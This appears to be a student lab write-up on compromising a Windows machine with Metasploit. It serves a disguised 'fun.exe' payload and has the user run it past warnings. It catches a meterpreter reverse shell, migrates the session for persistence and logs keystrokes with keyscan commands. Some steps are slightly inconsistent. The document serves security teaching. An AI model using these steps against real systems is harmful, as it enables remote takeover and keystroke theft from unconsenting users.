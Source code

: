 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

![WhatsApp Image 2024-10-28 at 17 48 11_5b0c416a](https://github.com/user-attachments/assets/ecc8be1c-5d4c-45f3-838d-c45f971250f0)

Start apache server sudo systemctl apache2 start

![WhatsApp Image 2024-10-28 at 18 05 18_f3bcd092](https://github.com/user-attachments/assets/b2c3e7d5-5a90-4da7-9be7-9187bc381cc7)

Check the status of apache2

![WhatsApp Image 2024-10-28 at 18 04 49_a78bb881](https://github.com/user-attachments/assets/03817c21-486a-4163-a1a4-79875fb8326f)

Invoke msfconsole:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![exp6_6](https://github.com/user-attachments/assets/47ca61b4-94f2-4c12-8117-e4a530b973fe)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![exp6_7](https://github.com/user-attachments/assets/f6705ed8-bbb3-43dc-a822-cbe5f17435eb)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![exp6_8](https://github.com/user-attachments/assets/656d275c-175e-4460-8809-07b9de09b03c)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![exp6_9](https://github.com/user-attachments/assets/1db3c4e8-5954-4876-9630-82a5e52a1cf0)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![exp6_10](https://github.com/user-attachments/assets/1378325a-be9d-42e8-9afd-04c46c2d0231)

keyscan_dump Shows the keystrokes captured so far

![exp6_11](https://github.com/user-attachments/assets/269031dc-7a8d-43e0-aa51-11e62be30b25)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.



